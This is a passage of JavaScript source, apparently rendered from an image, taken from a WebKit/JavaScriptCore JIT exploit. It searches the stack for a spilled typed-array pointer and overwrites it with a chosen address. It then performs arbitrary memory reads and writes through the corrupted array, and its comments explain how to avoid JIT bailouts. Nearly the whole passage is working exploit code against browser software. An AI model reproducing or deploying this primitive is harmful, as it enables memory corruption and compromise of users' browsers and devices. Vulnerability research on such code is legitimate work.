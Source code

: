 ```
    // will reload the backing storage pointer from the typed array.

    // Search for correct offset.
    // One (unlikely) way this function could fail is if the compiler decides
    // to relocate this loop above or below the first/last typed array access.
    // This could easily be prevented by creating artificial data dependencies
    // between the typed array accesses and the loop.
    //
    // If we wanted, we could also cache the offset after we found it once.
    let success = false;
    // stack.length can be a negative number here so fix that with a bitwise and.
    for (let i = 0; i &lt; Math.min(stack.length &amp; 0x7fffffff, 512); i++) `{`
        // The multiplication below serves two purposes:
        //
        // 1. The GetByVal must have mode "SaneChain" so that it doesn't bail
        //    out when encountering a hole (spilled JSValues on the stack often
        //    look like NaNs): https://github.com/WebKit/webkit/blob/
        //    e86028b7dfe764ab22b460d150720b00207f9714/Source/JavaScriptCore/
        //    dfg/DFGFixupPhase.cpp#L949
        //    Doing a multiplication achieves that: https://github.com/WebKit/
        //    webkit/blob/e86028b7dfe764ab22b460d150720b00207f9714/Source/
        //    JavaScriptCore/dfg/DFGBackwardsPropagationPhase.cpp#L368
        //
        // 2. We don't want |needle| to be the exact memory value. Otherwise,
        //    the JIT code might spill the needle value to the stack as well,
        //    potentially causing this code to find and replace the spilled needle
        //    value instead of the actual buffer address.
        //
        if (stack[i] * 2 === needle) `{`
            stack[i] = address;
            success = i;
            break;
        `}`
    `}`

    // Finally, arbitrary read/write here :)
    if (operation === READ) `{`
        for (let i = 0; i &lt; length; i++) `{`
            buffer[i] = 0;
            // We assume an odd number of typed arrays total, so we'll do one
            // read from the corrupted address and an even number of reads
            // from the inout buffer. Thus, XOR gives us the right value.
            // We could also zero out the inout buffer before instead, but
            // this seems nicer :)
            buffer[i] ^= m$r[i];
        `}`
    `}` else if (operation === WRITE) `{`
        for (let i = 0; i &lt; length; i++) `{`
            m$r[i] = buffer[i];
        `}`
    `}`

    // For debugging: can fetch SP here again to verify we didn't bail out in between.
    //let end_sp = getsp();

    controller[1] = savedPtr;

    return `{`success, sp, stackbase`}`;
`}`

// Add one to the number of registers so that:
// - it's guaranteed that there are more values than registers (note this is
//   overly conservative, we'd surely get away with less)
```